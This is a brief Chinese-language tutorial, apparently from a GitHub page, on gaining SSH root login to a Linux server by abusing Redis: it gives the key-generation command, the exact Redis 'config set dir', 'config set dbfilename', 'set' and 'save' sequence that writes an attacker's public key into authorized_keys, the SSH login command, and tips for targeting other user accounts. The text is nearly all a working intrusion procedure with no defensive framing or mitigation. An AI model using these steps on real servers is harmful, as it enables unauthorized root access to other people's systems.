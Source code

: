 # 利用Redis写文件提权登陆linux的漏洞

## 原理

利用redis的config命令修改rdb文件地址为ssh密钥文件，向redis中写入公共密钥，通过save命令手动刷新到rdb中，此时就可以用私钥登陆了

## 操作

在本地电脑中（linux为例）生成无密码的密钥

```
ssh-keygen -t rsa -P ''    # 后面直接回车
```

此时在~/.ssh/下生成两个文件`id_rsa`和`id_rsa.pub`，id_rsa是私钥，id_rsa_pub是公钥，公钥文件内容如下：

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf53Tg8bfLm8UQBFgm31YpMPuGDY3eWQ5GCiP4E7hdaSBvqSjeMjUOy5NWLg424BFWSFiKNF8oRBZpXtfhu+4AwgrwdSDJuKQtjJvrh7D+rnuxtzpGbqL/716S0e/+VHeh8PXnC+GPAMg72p7zDzHuYkvwkx/r6LSY9fspU25lHH4I9VrrxgPoS+BbU03i9LiGZFSTUSAljTJE3H5bPNpRPWlHlAZTxGXTYIGO+K2ZnUAg2+HtS246NONl6z1lVtxrS5G4yuiTeHJr+KWJD/DOiZ50EoYqbTHsjnTAM5MJTLHWH1jBIZ133OHW5RGmzyEuws6ge0Y6eGnxgwm2W09p uvince@DESKTOP-6JIM4T8
```



进入服务器的redis命令行，输入如下一系列命令(注意ssh-rsa内容前后要有回车符\n)：

```
config set dir /.ssh

config set dbfilename authorized_keys

set ssh-test "\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf53Tg8bfLm8UQBFgm31YpMPuGDY3eWQ5GCiP4E7hdaSBvqSjeMjUOy5NWLg424BFWSFiKNF8oRBZpXtfhu+4AwgrwdSDJuKQtjJvrh7D+rnuxtzpGbqL/716S0e/+VHeh8PXnC+GPAMg72p7zDzHuYkvwkx/r6LSY9fspU25lHH4I9VrrxgPoS+BbU03i9LiGZFSTUSAljTJE3H5bPNpRPWlHlAZTxGXTYIGO+K2ZnUAg2+HtS246NONl6z1lVtxrS5G4yuiTeHJr+KWJD/DOiZ50EoYqbTHsjnTAM5MJTLHWH1jBIZ133OHW5RGmzyEuws6ge0Y6eGnxgwm2W09p uvince@DESKTOP-6JIM4T8\n"

save
```

此时，就已经往authorized_keys文件中写入了公钥



本地电脑使用命令`ssh -i ~/.ssh/id_rsa root@10.0.2.100`能够登陆服务器，这里-i后面是私钥的路径



这里面，有几个限制，一个是redis写文件的权限要能够到达该目录。现在写入的是root用户中，所以redis需要以root用户启动。如果知道某台服务器上有哪个用户，就可以把config set dir /.ssh 改为 config set dir /home/username/.ssh 了，最好还是redis和那个用户是同一个用户，这时候用config set dir ~/.ssh
